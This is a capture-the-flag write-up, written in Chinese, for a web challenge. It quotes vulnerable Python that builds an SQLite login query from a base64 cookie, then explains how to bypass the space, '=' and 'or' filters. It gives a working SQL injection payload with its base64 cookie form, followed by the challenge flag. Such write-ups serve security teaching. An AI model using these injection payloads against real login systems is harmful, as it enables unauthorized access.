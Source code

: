 * 這是個會把你的 cookie 拿去 sql 找 row 然後如果你是 admin 就可以回傳 FLAG
* 可以知道我們目標是 sqli 拿到 admin 的權限
* 而主要驗證的地方在這邊

```python!
username, password = base64.b64decode(content.encode()).decode(encoding="utf8").split("@")
        # 去除所有空格
        username = "".join(username.split())
        password = "".join(password.split())

        # 過濾username中所有特殊字符
        mu = re.match(r'.*\W', username)
        if mu is None: 
            # 過濾password中所有英文字母跟等號
            cflag = False
            for w in password: 
                if (w in string.ascii_letters) or (w == "="): cflag = True
            if (cflag): return None
            else:
                conn = sqlite3.connect("user.db")
                rows = conn.execute(f"select * from user where (user='{username}') and (pass='{password}');")

                result = None
                for row in rows: result = tuple(row)
                conn.close()

                if result is None: return None
                else: return str(result[0])
        else: return None
    except: return None 
```

* 可以觀察 rows 有 sqli
* 我們的目標是要 做出像是 `password='' or 1=1;--` 的效果
* `' or 1=1;--` 要 bypass "space" "=" "or"

> "space" 可用 /**/
> "=" 可以用大於小於 2>1
> "or" 可以用 "||"

* 所以全部看起來會像是

```sql!
admin@')/**/||/**/2>1;--

base64 = YWRtaW5AJykvKiovfHwvKiovMj4xOy0t
```

* 拿去 set cookie 就過了 φ(゜▽゜*)♪

![image](https://hackmd.io/_uploads/BJCNGn2bC.png)

> FLAG : THJCC{cUt3_wh1e3_f0x_sh1rakam1_fuBuk1_0x133ee79}
